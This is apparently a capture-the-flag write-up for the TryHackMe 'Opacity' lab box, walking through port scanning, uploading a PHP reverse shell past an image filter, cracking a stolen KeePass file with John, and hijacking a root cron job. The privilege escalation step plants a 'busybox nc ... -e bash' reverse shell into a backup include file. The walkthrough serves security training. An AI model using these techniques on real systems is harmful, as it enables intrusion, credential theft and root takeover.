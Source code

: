 # THM - Opacity

#### Ip: 10.10.182.105
#### Name: Opacity
#### Difficulty: Easy

----------------------------------------------------------------------

![opacity.png](../assets/opacity_assets/opacity.png)

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/THM/Opacity]
└─$ sudo nmap -p-  --min-rate 10000 10.10.182.105
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-31 09:10 CDT
Nmap scan report for 10.10.182.105
Host is up (0.22s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 8.47 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/THM/Opacity]
└─$ sudo nmap -sC -sV 10.10.182.105 -p 22,80,139,445
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-31 09:11 CDT
Nmap scan report for 10.10.182.105
Host is up (0.26s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0fee2910d98e8c53e64de3670c6ebee3 (RSA)
|   256 9542cdfc712799392d0049ad1be4cf0e (ECDSA)
|_  256 edfe9c94ca9c086ff25ca6cf4d3c8e5b (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-title: Login
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2023-08-31T14:11:37
|_  start_date: N/A
|_nbstat: NetBIOS name: OPACITY, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
|_clock-skew: -1s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.95 seconds
```

Taking a look at the site we find a basic login page:

![site.png

Lets try some directory fuzzing with Feroxbuster:

![ferox.png

The `/cloud` directory seems interesting. 

Navigating to the directory we find an image upload page:

![cloud.png

### Exploitation

Lets grab a copy of PentestMonkey's php-reverse-shell.php and update the IP and port fields:

php.png

This took some trial and error, but lets go ahead and save the file as shell.php, but when we upload it lets bypass the filtering by using http://10.2.6.181/shell.php#.png

Looking back at our listener and web server we can see that worked!

shell.png

Trying to grab the local.txt we get a permission denied. Looks like we'll have to keep enumerating:

```text
www-data@opacity:/home/sysadmin$ cat local.txt
cat: local.txt: Permission denied
```

Browsing around a bit more we find a KeePass file in `/opt`. Lets start a Python HTTP server on the target and grab the file on our attacking machine using wget:

wget.png

Once back on our machine we can try to access the contents, but it looks like it's password protected:

```text
┌──(ryan㉿kali)-[~/THM/Opacity]
└─$ kpcli --kdb=dataset.kdbx            
Provide the master password:
```

Lets use John to crack this:

First we'll need to get it in a format John can work with:

```text
┌──(ryan㉿kali)-[~/THM/Opacity]
└─$ keepass2john dataset.kdbx > hash.txt
```

Then we can use John to crack the password:

john.png

Cool, now we can access the KeePass file using kpcli:

kpcli.png

Cool, looks like we've now get the sysadmin user's password!

back in our shell we can issue `su sysadmin` and then grab the user.txt flag:

user_flag.png

### Privilege Escalation

Taking a look in the `/scripts` folder we see an interesting script that is owned by root:

```text
sysadmin@opacity:~/scripts$ cat script.php
<?php

//Backup of scripts sysadmin folder
require_once('lib/backup.inc.php');
zipData('/home/sysadmin/scripts', '/var/backups/backup.zip');
echo 'Successful', PHP_EOL;

//Files scheduled removal
$dir = "/var/www/html/cloud/images";
if(file_exists($dir)){
    $di = new RecursiveDirectoryIterator($dir, FilesystemIterator::SKIP_DOTS);
    $ri = new RecursiveIteratorIterator($di, RecursiveIteratorIterator::CHILD_FIRST);
    foreach ( $ri as $file ) {
        $file->isDir() ?  rmdir($file) : unlink($file);
    }
}
?>
```

We see that it is calling the backup.inc.php file in `/lib` and that this must be being executed by a cronjob. We can't edit the script here so we'll need to delete it and create a new backup.inc.php in the `sysadmin` directory, insert a reverse shell, and then copy the file back to `/lib` to be executed by the script. 

```text
sysadmin@opacity:~$ rm scripts/lib/backup.inc.php
sysadmin@opacity:~$ vi backup.inc.php


<?php


ini_set('max_execution_time', 600);
ini_set('memory_limit', '1024M');


function zipData($source, $destination) {
        system('/usr/bin/busybox nc 10.2.6.181 8888 -e bash');
}
?>

<snip>

sysadmin@opacity:~$ chmod +x backup.inc.php
sysadmin@opacity:~$ cp backup.inc.php /home/sysadmin/scripts/lib/
```
And then after waiting just a minute or two for the script to execute, we caught a shell back as root and were able to grab the final flag:

root_flag.png

Thanks for following along!

-Ryan
